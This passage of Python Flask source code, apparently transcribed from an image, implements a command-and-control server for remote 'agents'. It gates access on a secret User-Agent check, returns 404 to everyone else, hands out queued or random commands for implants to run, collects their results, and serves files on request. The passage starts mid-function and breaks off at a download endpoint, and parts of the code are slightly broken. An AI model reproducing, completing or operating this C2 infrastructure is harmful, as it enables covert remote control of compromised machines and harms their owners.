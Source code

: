 ```python
        abort(404)


@app.route('/api/agents/<uid>', methods=['GET'])
def get_agent(uid):
    if is_user_agent_keyed(request.headers.get('User-Agent')):
        if uid in live_agents:
            info = live_agents.get(uid)
            return f"Agent info:\nUID: {uid} - Hostname: {info}", 200
        else:
            return "You're not a live agent", 401
    else:
        abort(404)


@app.route('/api/agents/<uid>/command', methods=['GET', 'POST'])
def get_agent_command(uid):
    if is_user_agent_keyed(request.headers.get('User-Agent')):
        if uid in live_agents:
            if request.method == 'GET':
                global command_to_execute_next
                global command_stack_reset_flag
                if command_to_execute_next:
                    command_reset_flag = is_command_reset_flag_set(command_stack_reset_flag)
                    if command_reset_flag:
                        command = random.choice(command_list)
                        return f"{command}", 200
                    else:
                        command = command_to_execute_next
                        command_stack_reset_flag = True
                        return f"{command}", 200
                else:
                    command = random.choice(command_list)
                    return f"{command}", 200
            if request.json:
                result = request.json["results"]
                app.logger.debug(result)
                print(result)
                return "OK", 200
        else:
            return "You're not a live agent", 401
    else:
        abort(404)


@app.route(f'/api/agents/<uid>/upload', methods=['POST'])
def post_upload(uid):
    if is_user_agent_keyed(request.headers.get('User-Agent')):     
        if uid in live_agents:
            if request.json:
                file = request.json["file"]
                f = open(file,"rb")
                data = f.read()
                f.close()
                return data, 200
        else:
            return 401
    else:
        abort(404)


@app.route(f'/api/agents/<uid>/download', methods=['POST'])
def post_download(uid):
```